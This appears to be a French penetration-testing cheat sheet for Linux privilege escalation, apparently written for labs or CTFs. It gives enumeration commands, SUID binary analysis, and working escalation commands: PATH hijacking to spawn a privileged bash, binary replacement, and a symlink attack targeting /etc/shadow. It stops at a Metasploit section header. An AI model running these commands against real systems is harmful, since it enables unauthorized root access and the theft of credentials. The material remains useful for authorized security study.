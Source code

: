 ### Reconnaissance initiale système
```bash
# Énumération de base (toujours commencer par ça)
whoami && id && uname -a && hostname

# Recherche SUID standard
find / -perm -4000 -type f 2>/dev/null

# Recherche dans répertoire courant
ls -la
ls -la welcome*  # Si binaire spécifique détecté

# Vérification sudo
sudo -l 2>/dev/null
```

### Analyse de binaires SUID suspects
```bash
# Pour chaque binaire SUID trouvé
file <binary>
strings <binary> | head -20
strings <binary> | grep -E "^[a-zA-Z0-9_./]+$"

# Test d'exécution sécurisé
strace <binary> 2>&1 | grep -E "execve|open|access" | head -10
```

### Exploitation systématique
```bash
# 1. Path Hijacking (si appel sans chemin absolu)
echo '/bin/bash -p' > /tmp/<command>
chmod +x /tmp/<command>
export PATH=/tmp:$PATH
./<binary_suid>

# 2. Binary Replacement (méthode lab)
# Si le binaire appelle un fichier dans le répertoire courant
mv <called_binary> <called_binary>.bak  2>/dev/null
cp /bin/bash <called_binary>
./<binary_suid>

# 3. Symlink Attack
# Si écriture dans fichier prédictible
ln -sf /etc/shadow /tmp/target_file
./<binary_suid>
```

---

## 🚀 15. Post-exploitation avec Metasploit
